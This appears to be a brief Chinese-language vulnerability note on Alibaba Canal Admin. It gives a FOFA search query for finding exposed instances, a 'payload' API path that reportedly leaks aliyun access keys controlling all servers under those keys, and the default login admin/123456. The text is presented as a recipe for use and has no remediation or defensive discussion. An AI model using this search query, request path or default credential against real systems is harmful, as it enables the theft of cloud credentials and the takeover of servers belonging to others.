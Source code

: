 FOFA
----

    title="Canal Admin"

Payload
-------

    /api/v1/canal/config/1/0

其中洩露了 aliyun.access 密鑰，可以控制密鑰下的所有服務器

其中還含有默認口令 admin/123456